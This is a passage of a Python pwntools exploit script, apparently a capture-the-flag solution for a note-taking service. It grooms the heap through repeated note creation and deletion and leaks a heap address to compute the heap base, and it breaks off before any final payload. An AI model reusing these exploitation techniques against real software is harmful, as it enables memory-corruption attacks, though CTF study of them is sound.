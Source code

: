 ```py
    r.sendlineafter(b'Enter your full name: ', b'hieuvd')
    r.sendlineafter(b'Enter your username: ', username)
    r.sendlineafter(b'Enter your password: ', password)

def login(username, password):
    r.sendlineafter(b'Your choice: ', b'2')
    r.sendlineafter(b'Enter your username: ', username)
    r.sendlineafter(b'Enter your password: ', password)

def logout():
    r.sendlineafter(b'Your choice: ', b'3')

def add_note(title, content):
    r.sendlineafter(b'Your choice: ', b'1')
    r.sendlineafter(b'Enter note title: ', title)
    r.sendlineafter(b'Enter note content: ', content)

def delete_note(title):
    r.sendlineafter(b'Your choice: ', b'4')
    r.sendlineafter(b"Enter the title of the note you want to delete: ", title)

def view_profile():
    r.sendlineafter(b'Your choice: ', b'1')
def edit_fullname(fullname):
    r.sendlineafter(b'Your choice: ', b'2')
    r.sendlineafter(b'Your choice: ', b'1')
    r.sendlineafter(b'Enter new full name: ', fullname)
def main():

    # good luck pwning :)
    register(b'grass', b'1')
    register(b'grass', b'12')
    register(b'grass', b'123')
    login(b'grass', b'12')
    r.sendlineafter(b'Your choice: ', b'4')
    for i in range(16):
        add_note(b'grass', b'grass')
    add_note(b'grass', b'grass')
    add_note(b'grass', b'grass')
    r.sendlineafter(b'Your choice: ', b'5')
    r.sendlineafter(b'Your choice: ', b'5')

    view_profile()
    r.recvuntil(b'Username: ')
    heap_leak = u64(r.recv(6).ljust(8, b'\x00'))
    heap_base = heap_leak - 0x2bd0
    r.sendlineafter(b'Your choice: ', b'3')

    logout()
    login(b'grass', b'123')
    r.sendlineafter(b'Your choice: ', b'4')
    for i in range(8+4+4):
        add_note(b'grass', b'grass')
    r.sendlineafter(b'Your choice: ', b'5')
    r.sendlineafter(b'Your choice: ', b'3')
    login(b'grass', b'1')

    r.sendlineafter(b'Your choice: ', b'4')
    for i in range(8):
        delete_note(b'grass')
    r.sendlineafter(b'Your choice: ', b'5')
    r.sendlineafter(b'Your choice: ', b'3')
    
```